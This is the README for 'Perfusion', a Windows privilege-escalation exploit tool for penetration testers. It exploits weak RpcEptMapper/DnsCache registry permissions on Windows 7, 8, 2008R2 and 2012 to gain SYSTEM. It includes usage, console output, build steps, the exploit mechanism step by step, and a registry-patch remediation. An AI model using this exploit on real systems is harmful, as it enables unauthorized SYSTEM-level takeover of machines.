

# Perfusion

On __Windows 7__, __Windows Server 2008R2__, __Windows 8__, and __Windows Server 2012__, the registry key of the `RpcEptMapper` and `DnsCache` (7/2008R2 only) services is configured with weak permissions. Any local user can create a `Performance` subkey and then leverage the ___Windows Performance Counters___ to load an arbitrary DLL in the context of the WMI service as `NT AUTHORITY\SYSTEM` (hence the tool's name).

This tool is intended to help security consultants during penetration tests. This software is provided as is, and I will probably not provide any support. Though, I tested it thoroughly on three different virtual machines so there should not be any significant issue.

For more information: [https://itm4n.github.io/windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  
</p>

## Known issues

:warning: __READ THIS BEFORE USING THIS TOOL__ :warning:

During the development phase of this tool, I observed __two different behaviors__:

1. The DLL is loaded __directly by the main process__ of the WMI service as `NT AUTHORITY\SYSTEM`, in this case the exploit works perfectly fine.
2. The DLL is loaded __by a subprocess__ of the WMI service that runs as `NT AUTHORITY\LOCAL SERVICE`. In this case, the service loads the DLL __while impersonating the client__. It turns out a privilege escalation is still possible on Windows 7 (because of another vulnerability) but the implementation cost was not worth the effort.

I am not able to explain this difference because my _trigger_ code was always the same. Anyway, in either case, __let the exploit do its job__ so that it can clean everything up when it's done. If the exploit fails, there is still a chance it will work a few minutes or hours later though.

:heavy_check_mark: Here is what you should see when the exploit works:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Here is what you should see when the exploit fails:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

This solution is composed of two projects that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions:

1. Open the Solution with Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

You can check the help message using the `-h` option.

```console
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.1
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -h        Help - That's me :)
```

## Remediation / Patch

The following versions of Windows are vulnerable:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

As far as I know, this vulnerability will not be fixed by Microsoft, for some reason. The best solution is still to upgrade to Windows 10 / Server 2019 but if it is not a short-term option, you can still patch this issue yourself by removing the `CreateSubKey` permission for both `NT AUTHORITY\Authenticated Users` and `BUILTIN\Users` on the following registry keys:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

I created a patch for this vulnerability in the form of a PowerShell script: [RegistryPatch.ps1](RegistryPatch.ps1). This script removes the `CreateSubKey` right on the two above-mentioned registry keys for the following identities: `NT AUTHORITY\INTERACTIVE`, `BUILTIN\Users` and/or `BUILTIN\Authenticated Users`.

- __Check if a machine is vulnerable:__ (Windows Server 2012 here)

```console
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Apply the patch:__ (Windows Server 2008 R2 here)

```console
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```


## How does this exploit work?

Below are the exploit steps that are implemented in this tool:

1. A Process is created in the background in a suspended state (using the specified command line).
2. The embedded payload DLL is written to the current user's `Temp` folder.
3. A `Performance` key is created under `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` and is populated with the appropriate values, including the full path of the DLL that was created at step 2.
4. The WMI class `Win32_Perf` is created and invoked to trigger the collection of _Windows Performance Counters_.
5. The DLL is loaded by the WMI service either as `NT AUTHORITY\SYSTEM` or `NT AUTHORITY\LOCAL SERVICE`.
6. If the DLL is loaded by `NT AUTHORITY\SYSTEM`, its Token is duplicated and is applied to the Process that was initially created by the user at step 1.
7. Everything is cleaned up and the main Thread of the suspended Process is resumed.
